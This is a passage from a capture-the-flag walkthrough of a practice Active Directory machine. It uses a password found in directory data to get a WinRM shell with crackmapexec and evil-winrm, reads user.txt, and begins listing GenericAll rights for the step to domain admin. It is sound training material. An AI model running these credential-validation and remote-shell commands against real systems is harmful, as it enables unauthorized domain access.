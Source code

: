 

It's important to note that the `info` shows up in the `.json` file, but
not the `.md`:



    oxdf@hacky$ grep Ironside *
    domain_users.json:            "Ironside47pleasure40Watchful"



### Evil-WinRM

Looking at the Bloodhound data, support shows up there as a member of
Remote Management Users:

![](/img/image-20220527142918001.png)

`crackmapexec` confirms:



    oxdf@hacky$ crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
    SMB         dc.support.htb  5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
    HTTP        dc.support.htb  5985   DC               [*] http://dc.support.htb:5985/wsman
    WINRM       dc.support.htb  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)



I'll connect with `evil-winrm` and get a shell:



    oxdf@hacky$ evil-winrm -i support.h -u support -p 'Ironside47pleasure40Watchful'

    Evil-WinRM shell v3.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\support\Documents> 



And `user.txt`:



    *Evil-WinRM* PS C:\Users\support\desktop> type user.txt
    93ca1fe7************************



## Shell as domainadmin

### Enumeration

Looking at the Bloodhound data again, the support user is a member of
the Shared Support Accounts group, which has `GenericAll` on the
computer object, DC.SUPPORT.HTB:

![](/img/image-20220527143212616.png)
